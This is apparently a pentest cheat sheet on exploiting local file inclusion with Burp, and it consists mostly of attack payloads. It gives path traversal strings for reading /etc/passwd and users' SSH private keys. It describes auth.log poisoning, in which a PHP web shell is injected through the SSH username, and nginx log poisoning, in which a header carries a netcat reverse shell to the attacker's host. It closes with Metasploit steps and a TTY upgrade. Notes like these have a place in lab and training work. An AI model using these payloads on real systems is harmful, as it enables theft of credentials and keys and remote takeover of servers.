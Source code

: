 **LFI with burp**

<H3>LFI passwd</H3>
`../../../../../../etc/passwd`

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)


<H3>LFI user ssh keys</H3>
`../../../../../../home/<user>/.ssh/id_rsa`

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)


<h3>auth.log poisoning</h3>
`keyword=../../../../../../../etc/passwd`
`keyword=../../../../../../../etc/var/log/auth.log` **(look for SSH logs)

username:
`<?php system($_GET["cmd"]); ?>`
password: `anything`

<h5>msfconsole</h5>
1. name:ssh type:auxiliary
2. use auxiliary/scanner/ssh/ssh_login
3. name:ssh type:auxiliary
4. use auxiliary/scanner/ssh/ssh_login

<h5>to confirm:</h5>
then input these on address bar
`param?=../../../../../../../etc/var/log/auth.log&cmd=which python3`
<h5>inject to parameter</h5>
1. setup listener first
2. pentest monkey python3 reverse shell
3. spawn tty shell:
4. python3 -c ‘import pty;pty.spawn("/bin/bash")’


<h3>LFI auth log</h3>
can be use to exploit **log poisoning 
`../../../../../../var/log/auth.log`

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)


<h3>nginx access log</h3>
can be use to exploit **nginx access log poisoning
`../../../../../../var/log/nginx/access.log`

<h5>check LFI</h5>
`../../../../../../var/log/nginx/access.log`![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)

1. go to inspector
2. change user header
3. insert php 1 liner in user header value `<?php system ( ‘nc -e /bin/bash <lhost> <lport>’): ?>`
4. save changes
5. setup listener
6. forward (with LFI payload)

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)


